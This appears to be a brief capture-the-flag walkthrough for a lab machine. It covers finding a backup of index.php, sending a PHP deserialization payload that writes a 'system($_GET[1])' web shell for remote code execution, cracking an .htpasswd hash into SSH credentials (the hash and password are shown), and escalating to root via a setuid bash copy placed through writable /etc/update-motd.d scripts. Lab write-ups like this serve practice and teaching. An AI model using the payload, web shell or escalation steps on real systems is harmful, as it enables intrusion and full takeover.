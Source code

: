 About php de-serialization

Fuzzing the url gives a backup which had index.php.bak

The payload is:
O:10:"FormSubmit":2:{s:9:"form_file";s:8:"test.php";s:7:"message";s:26:"<?php+system($_GET[1]);+?>";}

use payload on http://<IP>/index.php?debug=<payload>

/test.php?1=ls has rce

there's a hash file(.htpasswd), cracking it gives ssh creds

james:$apr1$zPZMix2A$d8fBXH0em33bfI9UTt9Nq1:jamaica

writable files in /etc/update-motd.d, copy bash binary and chmod u+s to save in home directory

logout and login to get the binary
